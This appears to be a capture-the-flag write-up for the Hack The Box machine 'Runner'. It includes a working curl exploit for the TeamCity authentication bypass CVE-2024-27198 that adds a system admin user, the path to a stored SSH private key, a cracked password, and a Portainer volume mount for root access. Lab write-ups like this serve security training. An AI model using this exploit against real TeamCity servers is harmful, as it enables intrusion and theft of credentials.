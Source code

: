 # Runner

## Info

Runner is a medium difficulty linux machine from hack the box.

## Nmap

Tcp ports open.

```
22
80
8000
```

## HTTP 80

The web page states it uses TeamCity to power ci cd.

The following subdomain is found in the wordlist.

```
teamcity
```

```
/home/kali/wordlists/Subdomains/bug-bounty-program-subdomains-trickest-inventory.txt
```

The following cve was found by Rapid7 to allow a admin user to be added.

```
CVE-2024-27198
```

Using curl, add an admin user haxor and password haxor.

```
curl -ik 'http://runner.htb/hax?jsp=/app/rest/users;.jsp' -X POST -H "Content-Type: application/json" -H "Host: teamcity.runner.htb" --data "{\"username\": \"haxor\", \"password\": \"haxor\", \"email\": \"haxor\", \"roles\": {\"role\": [{\"roleId\": \"SYSTEM_ADMIN\", \"scope\": \"g\"}]}}" 
```

## User

When browsing the projects, I see a ssh key added by john.

In administrator, global settings, click on browse, this allows the database to be seen.

Go to the following to download the private ssh key for john.

```
config/projects/AllProjects/pluginData/ssh_keys/id_rsa
```

## Root

There is a backup option on the teamcity web ui, download the zip and look at database dump table users.

Cracked matthew password

```
piper123
```

Running on localhost is portainer, sign in as matthew.

create a volume, all the following to the local driver.

```
type ext4
device /dev/sda2
o uid=0
```

Then create the container with the ubuntu image.

Access the file system in the container where the volume was mounted.
